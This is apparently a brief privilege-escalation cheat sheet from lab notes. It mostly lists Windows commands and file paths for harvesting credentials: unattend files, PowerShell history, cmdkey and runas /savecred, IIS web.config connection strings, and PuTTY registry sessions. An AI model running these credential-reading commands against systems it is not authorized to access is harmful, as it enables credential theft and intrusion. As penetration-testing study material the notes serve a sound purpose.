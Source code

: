 ###  Privilege Escalation: PATH  

### Privilege Escalation: ALL=(ALL) NOPASSWD: /usr/bin/php

[link](https://medium.com/@rebaleos0/privilege-escalation-all-all-nopasswd-usr-bin-php-241a2c43e58d)


# Windows Privilege Escalation  

## Harvesting Passwords from Usual Spots 
```xml
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml 

<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

### Powershell History

command: 
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved Windows Credentials

```cmd
cmdkey /list

runas /savecred /user:admin cmd.exe
```

### IIS Configuration
```shell
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString #a quick way to find database connection strings
```
### Retrieve Credentials from Software: PuTTY 
```shell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
